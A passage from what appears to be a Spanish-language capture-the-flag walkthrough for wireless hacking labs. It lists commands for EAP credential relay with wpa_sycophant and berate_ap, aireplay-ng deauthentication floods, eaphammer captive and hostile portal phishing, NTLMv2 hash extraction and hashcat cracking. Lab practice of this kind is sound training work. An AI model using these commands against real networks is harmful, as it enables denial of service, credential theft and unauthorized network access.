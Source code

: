 ```bash
  key_mgmt=WPA-EAP
  identity=""
  anonymous_identity=""
  password=""
  eap=PEAP
  phase1="crypto_binding=0 peaplabel=0"
  phase2="auth=MSCHAPV2"
  bssid_blacklist=F0:9F:C2:00:00:00
}

cd ~/tools/berate_ap/
./berate_ap --eap --mana-wpe --wpa-sycophant --mana-credout outputMana.log wlan1 lo wifi-regional-tablets

# Shell 2 - Deauth
iwconfig wlan0mon channel 44
aireplay-ng -0 0 wlan0mon -a F0:9F:C2:7A:33:28 -c CLIENT_MAC

# Shell 3 - Sycophant
cd ~/tools/wpa_sycophant/
./wpa_sycophant.sh -c wpa_sycophant_example.conf -i wlan3

# Shell 4 - DHCP
dhclient wlan3 -v
```

## 22. Flag en wifi-regional
Mismo proceso que el 21, cambiar SSID a "wifi-regional".

## 23. Contraseña de usuario vulnerable de wifi-global (Phishing)
```bash
cd ~/tools/eaphammer
sudo killall dnsmasq
./eaphammer --essid WiFi-Restaurant --interface wlan4 --captive-portal

# Deauth paralelo
iwconfig wlan0mon channel 44
aireplay-ng -0 0 wlan0mon -a F0:9F:C2:71:22:17 -c CLIENT_MAC
```

**Hostile Portal:**
```bash
./eaphammer --essid WiFi-Restaurant --interface wlan2 --hostile-portal
cat logs/Responder-Session.log | grep NTLMv2 | grep Hash | awk '{print $9}' > responder.5600
hashcat -a 0 -m 5600 responder.5600 ~/rockyou-top100000.txt --force
```

## 24. Flag en wifi-regional con credenciales obtenidas
Usar credenciales del paso anterior para conectarse vía relay y acceder al servidor web.
